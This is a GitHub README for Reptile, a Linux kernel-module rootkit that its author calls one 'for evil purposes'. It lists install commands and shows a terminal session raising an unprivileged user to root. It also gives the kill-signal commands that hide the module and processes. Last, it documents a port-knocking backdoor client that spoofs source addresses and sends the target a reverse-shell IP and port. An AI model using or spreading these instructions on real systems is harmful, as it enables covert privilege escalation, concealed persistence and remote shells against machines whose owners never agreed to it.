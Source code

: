 # Reptile

Reptile is a LKM rootkit for evil purposes. If you are searching stuff only for study purposes see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install

```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

```
hax@Debian:~$ id
uid=1000(hax) gid=1000(hax) grupos=1000(hax),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),118(scanner)
hax@Debian:~$ /reptile/r00t
You got super powers!

root@Debian:/home/hax# id
uid=0(root) gid=0(root) groups=0(root)
```

### Hiding

- Hide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Writen by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      protocol (ICMP/UDP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 53 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l

```

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
